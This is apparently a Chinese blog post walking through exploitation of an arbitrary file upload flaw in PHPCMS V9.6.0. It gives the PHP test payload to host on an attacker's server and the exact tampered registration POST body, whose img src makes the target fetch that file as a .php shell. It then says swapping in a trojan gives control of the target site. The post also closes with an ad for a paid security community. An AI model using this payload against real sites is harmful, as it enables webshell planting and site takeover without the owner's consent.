 **目录**

[PHPCMS](#t0 "PHPCMS")

[PHPCMS V9.6.0任意文件上传漏洞](#t1 "PHPCMS V9.6.0任意文件上传漏洞")

* * *

PHPCMS
------

PHPCMS是一款网站管理软件，该软件采用模块化开发，支持多种分类方式，使用它可方便实现个性化网站的设计、开发与维护。它支持众多的程序组合，可轻松实现网站平台迁移，并可广泛满足各种规模的网站需求，可靠性高，是一款具备文章、下载、图片、分类信息、影视、商城、采集、财务等众多功能的强大、易用、可扩展的优秀网站管理软件

### **PHPCMS V9.6.0任意文件上传漏洞**

该任意文件上传漏洞存在于用户注册页面**，**[http://www.xxx.com/index.php?m=member&c=index&a=register&siteid=1](http://www.jingduqh.com/index.php?m=member&c=index&a=register&siteid=1 "http://www.xxx.com/index.php?m=member&c=index&a=register&siteid=1")

![](https://img-blog.csdnimg.cn/20190610181837939.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

我们先在自己的公网服务器上上传一个文件 shell.txt，内容为：

```
<?php phpinfo();?>
```


链接为：http://ww.xx.com/shell.txt 

然后在目标网站注册会员，打开burp，截断数据包，把post内容更改为

```
siteid=1&modelid=11&username=zf1agac121&password=aasgfaewee311as&email=a1ea21f94@qq.com&info[content]=<img src=http://www.xx.com/shell.txt?.php#.jpg>&dosubmit=1&protocol=
```


repeater重放，得到shell地址

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9pbWFnZXMyMDE4LmNuYmxvZ3MuY29tL2Jsb2cvMTMwOTU4OC8yMDE4MDIvMTMwOTU4OC0yMDE4MDIyMjE2MzcyNzc3MS0xMTk1MDE4NzYuanBn?x-oss-process=image/format,png)

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9pbWFnZXMyMDE4LmNuYmxvZ3MuY29tL2Jsb2cvMTMwOTU4OC8yMDE4MDIvMTMwOTU4OC0yMDE4MDIyMjE2Mzc0NzAyMy0xMjQzOTk2ODU1LnBuZw?x-oss-process=image/format,png)

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9pbWFnZXMyMDE4LmNuYmxvZ3MuY29tL2Jsb2cvMTMwOTU4OC8yMDE4MDIvMTMwOTU4OC0yMDE4MDIyMjE2Mzc1NTcyOS0xNjg5NDM5MjUyLnBuZw?x-oss-process=image/format,png)

所以，我们可以将该shell.txt文件替换成我们的木马文件，即可拿到目标网站的权限了。

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[phpcms v9.6.0任意文件上传漏洞](https://www.cnblogs.com/s1ye/p/8459316.html "phpcms v9.6.0任意文件上传漏洞")

 相关文章：[论如何优雅的拿下PHPCMS-FreeBuf](https://www.freebuf.com/column/180754.html "论如何优雅的拿下PHPCMS-FreeBuf")